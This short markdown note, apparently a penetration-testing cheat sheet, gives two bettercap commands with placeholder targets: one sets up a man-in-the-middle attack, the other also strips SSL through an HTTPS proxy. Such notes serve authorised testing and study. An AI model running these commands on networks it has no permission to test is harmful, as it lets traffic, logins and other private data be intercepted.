 # Establish MitM
```bash
# Bettercap can automatically detect the gateway.
# If not targeting the gateway, specify the desired target.
# Ensure IP Forwarding is enabled
sudo bettercap -I <Interface Name> -X -G <First Target> -T <Second Target>
```

# Establish MitM and Strip SSL
```bash
# Ensure IP Forwarding is enabled
sudo bettercap -I <Interface Name> -X -G <First Target> -T <Second Target> --proxy-https
```